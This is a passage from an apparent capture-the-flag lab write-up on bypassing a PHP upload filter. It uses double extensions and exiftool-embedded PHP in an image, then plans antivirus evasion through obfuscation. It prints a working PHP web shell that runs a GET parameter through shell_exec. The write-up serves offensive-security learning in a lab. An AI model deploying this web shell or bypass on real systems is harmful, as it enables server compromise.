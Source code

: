 Looking at the code back in the index.php file, this upload section has two filters:

```bash
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

- The first filter makes sure to split the file extension on the “.” dot and creates a list. Next it takes the second index (1) from this list. Last it checks if this extension is in the list $goodExts, which are jpeg,jpg,png and gif.
    - This means that image.jpg is allowed but image.jpg.php is also allowed!
- The second filter checks the size of the file, which we can pass by using exiftool to add a comment with php code into a existing image.

I tested my idea by adding this php code into a existing image with exiftool:

```bash
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Incendium.jpeg.php
```

- The php code here is <?php echo \"<pre>Test Payload</pre>\"; die(); ?>
    - This will echo Test Payload on the webpage

Next, I uploaded the created image and navigated to [http://10.200.57.100/resources/uploads/test-Incendium.jpeg.php](http://10.200.57.100/resources/uploads/test-Incendium.jpeg.php) on the website. Which resulted in this output:

![Untitled](Personal%20P%20ec072/Untitled%2013.png)

- As you can see, we see that our PHP code is executed. We can now use this knowledge to gain a reverse shell on the Personal PC.

But we first need to evade the Anti-Virus! 

---

## 6.0 Evading the AV

I evaded the (possible) AV by obfuscating the php reverse shell payload with this online tool:

[https://www.gaijin.at/en/tools/php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

The original payload looked as follows:

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```
